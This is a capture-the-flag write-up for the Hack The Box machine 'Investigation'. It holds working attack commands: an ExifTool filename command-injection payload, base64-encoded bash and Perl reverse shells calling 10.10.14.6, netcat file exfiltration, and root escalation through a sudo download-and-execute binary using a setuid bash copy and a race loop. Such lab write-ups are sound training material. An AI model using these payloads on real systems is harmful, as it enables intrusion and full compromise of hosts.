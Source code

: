 ## HTB: Investigation (Linux)

### 🧠 Box Summary
Investigation is a Linux-based HTB machine that starts with a PHP-based image upload portal vulnerable to command injection via ExifTool (CVE-2022-23935). Upon exploitation, a `.msg` file reveals user credentials through Event Log analysis. Privilege escalation is achieved by abusing a root-executable binary that downloads and executes scripts with Perl.

---

## 🔍 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.197
nmap -p 22,80 -sCV 10.10.11.197
```
- Open Ports: 22 [SSH](SSH), 80 [HTTP](HTTP)
- Redirects to: `http://eforenzics.htb/`

### Hosts File
```
10.10.11.197 eforenzics.htb
```

### Feroxbuster
```bash
feroxbuster -u http://eforenzics.htb -x php,html
```
- Found: `/upload.php`, `/service.html`, various assets

---

## 💻 Shell as www-data

### CVE-2022-23935 - ExifTool Filename Injection
- ExifTool version: 12.37
- Exploit by setting filename to a command ending in `|`

### Example Payload:
```bash
filename: ping -c 1 10.10.14.6|
```
Confirm RCE using tcpdump or Burp.

### Reverse Shell
```bash
# Encode reverse shell to avoid special chars
echo 'bash -i &> /dev/tcp/10.10.14.6/443 0>&1' | base64 -w0

# Upload using filename set to: bash -c {echo,<base64>}|base64 -d|bash|
```
Receive with netcat:
```bash
nc -lnvp 443
```

### Shell Upgrade
```bash
script /dev/null -c bash
<Ctrl-Z>
stty raw -echo; fg
reset
```

---

## 👤 Shell as smorton

### Find Sensitive Files
```bash
find / -user smorton 2>/dev/null
```
Found: `/usr/local/investigation/Windows Event Logs for Analysis.msg`

### Crontab
```bash
crontab -l
```
Contains cleanup script, broken by immutable log file `analysed_log`.

### Exfiltrate `.msg`
```bash
nc -lnvp 443 > analysis.msg
cat analysis.msg | nc 10.10.14.6 443
```

### Analyze Email
```bash
msgconvert analysis.msg --mbox analysis.mbox
mutt -f analysis.mbox
# Save attachment: evtx-logs.zip
unzip evtx-logs.zip
```

### Convert EVTX to JSONL
```bash
evtx_dump security.evtx -o jsonl -t 1 -f security.json
```

### JQ Analysis
- Identify failed login with password in username field:
```bash
jq -r 'select(.Event.System.EventID==4625) | .Event.EventData.TargetUserName' security.json
```
Found password: `Def@ultf0r3nz!csPa$$`

### SSH as smorton
```bash
sshpass -p 'Def@ultf0r3nz!csPa$$' ssh smorton@eforenzics.htb
```

---

## 🧠 Shell as root

### Sudo Access
```bash
sudo -l
```
Can run: `/usr/bin/binary` as root

### Binary Behavior
- Downloads file from URL (arg1)
- Saves as `lDnxUysaQn` (arg2)
- Runs with: `perl ./lDnxUysaQn`
- Cleans up the file

### Option 1: Perl Reverse Shell
```perl
use Socket;
$i="10.10.14.6";$p=443;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))) {
    open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("sh -i");
}
```
Run:
```bash
sudo binary http://10.10.14.6/shell.pl lDnxUysaQn
```

### Option 2: Bash with Shebang
```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod 4777 /tmp/rootbash
```
Run:
```bash
sudo binary http://10.10.14.6/root.sh lDnxUysaQn
/tmp/rootbash -p
```

### Option 3: Race Condition
```bash
# One terminal:
while :; do if [ -f lDnxUysaQn ]; then mv -f lDnxUysaQn garbage; cp -f 0xdf.sh lDnxUysaQn; sleep 1; rm lDnxUysaQn; fi; done

# Second terminal:
sudo binary http://10.10.14.6/race lDnxUysaQn
```

---

## 🏁 Flags
- User: `fe330173************************`
- Root: `e9f2ff77************************`

---

## 🧩 Notable Tools Used
- [ExifTool](https://exiftool.org/)
- [evtx_dump](https://github.com/omerbenamram/evtx)
- [mutt](http://www.mutt.org/), [msgconvert](https://metacpan.org/pod/distribution/Email-Outlook-Message/bin/msgconvert)
- [jq](https://stedolan.github.io/jq/), [feroxbuster](https://github.com/epi052/feroxbuster)